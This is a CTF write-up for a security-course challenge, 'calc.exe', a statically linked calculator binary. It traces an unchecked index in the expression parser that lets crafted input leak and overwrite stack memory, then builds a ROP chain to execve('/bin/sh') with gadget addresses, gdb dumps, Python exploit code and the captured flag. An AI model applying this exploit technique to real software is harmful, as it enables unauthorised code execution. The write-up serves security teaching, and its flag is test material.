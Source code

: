 ==============
 calc Writeup
==============

:date: 2015-01-04 02:32
:modified: 2015-01-14 22:40
:tags: ctf, secprog, writeup, return-oriented-programming
:category: memo
:slug: calc-writeup
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary:

Problematic Calculator
======================

First of all, the file name is "calc.exe". But actually this binary is
elf-32... What the heck XD

Play around with it! This calculator is problematic. It can only
deal with arithmatic of positive number. For example, if you type:

.. code-block:: text

    -1+5

This will return ``0`` as a result, which is obviously not true. Also, trying
to type only ``0`` in the calculator, the error message will show up:

.. code-block:: text

    prevent division by zero

Another problem is that though it can do the elementary arithmetic, it only has
restricted capability of priority processing. For example, the expression
``2*3+4*5`` will return ``26``. But ``2*(3+4)*5`` we still got ``26`` as
answer. This shows that the calculator cannot support complicated priority
issue of elementary arithmetic, say, priority that uses parenthesis. One level
priority is supported, however.

Okay, that's enough. This weird calculator seems cannot support full
functionalites of traditional calculator. To see how it processes the input,
and the internal logic, one must use IDA Pro.

Look into The Program
=====================

The binary has five main functions:

- ``calc()``: Main loop of the calculator
- ``get_expr()``: Only allow specific character set ([+-\*/%0-9]) to be written
  into the buffer
- ``init_pool()``: Write zeros into the pool, trivial
- ``parse_expr()``: Poorly written parser
- ``eval()``: Do the operate on the ``i`` and the ``i-1`` element of the pool
  according to the operator

The key function is ``parse_expr()``. It has several weird parts such as:

- No boundary on the for loop
- Indexing by the argument which is in caller's stack frame

According to the result of decompilation, the local variables in ``calc()`` are
reside in the stack whose addresses are shown related to the ``esp`` and
``ebp``:

.. code-block:: c

    pool_t pool; // [sp+18h] [bp-5A0h]@5
    char str[1024]; // [sp+1ACh] [bp-40Ch]@2
    int stackguard; // [sp+5ACh] [bp-Ch]@1

Where the structure ``pool_t`` might be like this:

.. code-block:: c

    struct pool_t {
       int top;
       int stack[100];
    };

The calculation result of the expression will be stored at ``esp+0x1Ch``, which
is ``stack[0]``. And ``top`` will always be 1. In ``calc()``, the value of
``stack[0]`` will be printed out using ``top`` when ``top`` is 1.

.. code-block:: c

    printf((const char *)&unk_80BF804, pool.stack[(unsigned int)((char *)pool.top - 1)]);

There seems no boundary checking on ``top``. By this property, memory leaking
could also be possible.

In ``eval()``, the function directly doing operation to two elements of the
array without checking the boundary. We might exploiting this weak point to
modify variable which is right before the array.

.. code-block:: c

    p->stack[(unsigned int)((char *)p->top - 2)] += p->stack[(unsigned int)((char *)p->top - 1)];

But how to use this? We all know that the most of operators acceptable in this
calculator are in the category of "binary operators". Which means there must be
two operands between the operator. What if one of the operand is missing? Let's
do some experiments through GDB. If the expression "9+10" is entered (assume
the breakpoint was set right behind ``call 0x804902a <parse_expr>``, i.e. after
the returning of ``parse_expr()``):

.. code-block:: text

    gdb-peda$ x/16xw $esp
    0xffffd080:     0xffffd22c      0xffffd098      0x00000000      0x00000000
    0xffffd090:     0x00000000      0x00000000      0x00000001      0x00000013
    0xffffd0a0:     0x0000000a      0x00000000      0x00000000      0x00000000
    0xffffd0b0:     0x00000000      0x00000000      0x00000000      0x00000000

The value of ``top`` is 1 and the value of ``stack[0]`` is 19. Then 19 will be
printed out because ``*(stack+top-1)`` is 19. What if the expression entered is
"+5"?

.. code-block:: text

    gdb-peda$ x/16xw $esp
    0xffffd080:     0xffffd22c      0xffffd098      0x00000000      0x00000000
    0xffffd090:     0x00000000      0x00000000      0x00000005      0x00000005
    0xffffd0a0:     0x00000000      0x00000000      0x00000000      0x00000000
    0xffffd0b0:     0x00000000      0x00000000      0x00000000      0x00000000

The calculation result will be 0 because ``stack+top-1`` is ``0xffffd0ac``,
whose value is 0.

More surprisingly, we can simply use "+5+1" this kind of expression to modify
the content of the specific memory location. And the result will still be the
content of ``stack+top-1``, which is ``0xffffd0ac``. But its value is modified
by the expression.

.. code-block:: text

    gdb-peda$ x/16xw $esp
    0xffffd080:     0xffffd22c      0xffffd098      0x00000000      0x00000000
    0xffffd090:     0x00000000      0x00000000      0x00000005      0x00000005
    0xffffd0a0:     0x00000000      0x00000000      0x00000000      0x00000001
    0xffffd0b0:     0x00000001      0x00000000      0x00000000      0x00000000

Strategy
========

There are two facts which we gathered after analyzed the binary:

- Leak stack
- Write stack

So controling ``eip`` through return address should be possible. Another good
news is that we don't even have to worry about the stackguard because we are
capable to write return address rather than "overflowing" the stack buffer.
In the technique of stack buffer overflow, the canary (stackguard) will be
modified in order to overwritten the return address.

One interesting is that we modified the return address of ``calc()`` in
``parse_expr()``. In ``calc()``, the local variable in stack frame is passed
into ``parse_expr()`` as an argument. Thus making the return address
modification of caller's stack frame happened in callee's stack frame.

Shellcode
---------

First idea comes to my mind was putting shellcode in stack buffer. But
shellcode in ``stack[100]`` will not work because every time a new round in
while loop begins, the ``stack[100]`` will be re-initialized. And the raw input
we typed will be filetered (only [+-\*/%0-9]), then saved into ``str[1024]``. So
storing shellcode in ``str[1024]`` is not possible, either.

Return to LIBC
--------------

According to the hints TA provided, the program is compiled with static option.
That means "ret2libc" will not work because the library is compiled into the
program statically. There is no entry in the GOT of the program. This could be
checked by using ``file`` command.

.. code-block:: text

    calc.exe: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux),
    statically linked, for GNU/Linux 2.6.24,
    BuildID[sha1]=26cd6e85abb708b115d4526bcce2ea6db8a80c64, not stripped

Also, ``objdump -R`` will print the dynamic relocation entries of the program.

.. code-block:: text

    calc.exe:     file format elf32-i386

    objdump: calc.exe: not a dynamic object
    objdump: calc.exe: Invalid operation

Return Oriented Programming
---------------------------

The program is compiled with static option, which means the possibility of
finding useful ROP gadgets are higher. The objective is to make a ROP chain
which calls ``execve("/bin/sh")``.

Exploitation
============

Using ROPgadget to find ROP gadget:

.. code-block:: bash

    $ ./ROPgadget.py --binary ~/secprog/calc.exe

Because the "/bin/sh" string resides in stack, ``ebx`` needs to be the address
of the string, which is in stack. ASLR is enabled, so it is needed to poke for
the actual stack address. The text listed below is an example, real
exploitation should calculate the location of the string dynamically.

.. code-block:: text

    leak 0xffffd63c's value, modified to 0x080550d0 :  xor eax, eax ; ret
    leak 0xffffd640's value, modified to 0x080701d1 :  pop ecx ; pop ebx ; ret
    leak 0xffffd644's value, modified to 0x00000000 -> for pop ecx
    leak 0xffffd648's value, modified to 0xffffd6ec -> for pop ebx
    leak 0xffffd64c's value, modified to 0x080908d0 :  mov eax, 7 ; ret
    lead 0xffffd650's value, modified to 0x0807cb7f :  inc eax ; ret
    lead 0xffffd654's value, modified to 0x0807cb7f :  inc eax ; ret
    lead 0xffffd658's value, modified to 0x0807cb7f :  inc eax ; ret
    lead 0xffffd65c's value, modified to 0x0807cb7f :  inc eax ; ret
    leak 0xffffd660's value, modified to 0x08049a21 :  int 0x80
    leak 0xffffd6ec's value, modified to 0x6e69622f -> "/bin"
    leak 0xffffd6f0's value, modified to 0x0068732f -> "/sh'\0'"

The return address is at ``esp+0x5ac`` (``ebp+0x4``). Its value should be
modified to the address of the first ROP gadget. Then the ROP chain starts to
work! The exploitation works like this:

1. Poke ``ebp+0x10`` for the address of the string "/bin/sh".
2. Set ``eax`` and ``ecx`` to 0.
3. Make ``ebx`` to be the value of ``ebp+0x10``.
4. Accumulate ``eax`` to 11
5. Interrupt
6. Put the string "/bin/sh" in the address which has already stored in ``ebx``

.. code-block:: python

    addrs = ['+361', '+362', '+363', '+364',
             '+365', '+366', '+367', '+368',
             '+369', '+370', '+405', '+406']

    payloads = [0x080550d0, 0x080701d1, 0x00000000, 0x00000000,
                0x080908d0, 0x0807cb7f, 0x0807cb7f, 0x0807cb7f,
                0x0807cb7f, 0x08049a21, 0x6e69622f, 0x0068732f]

    def pokestack(s):
        s.send('+364\n')
        binsh = int(s.recv(1024))
        payloads[3] = binsh         # dynamically update addr of /bin/sh

    def rop(s):
        for i in range(12):
            print '[!] target: %s' % hex(payloads[i])
            s.send(addrs[i]+'\n')
            mleak = int(s.recv(1024))
            print '[!] leak: %s' % hex(mleak)
            offset = payloads[i]-mleak
            print '[!] offset: %d' % offset
            g = '%s%+d\n' % (addrs[i], offset)
            print '[+] send: %s' % g
            s.send(g)
            print '==> %s\n=================' % hex(int(s.recv(1024)))
        s.send('\n')

Flag
====

.. code-block:: text

    SECPROG{C:\Windows\System32\calc.exe}

References
==========

- `JonathanSalwan/ROPgadget`__

__ : https://github.com/JonathanSalwan/ROPgadget

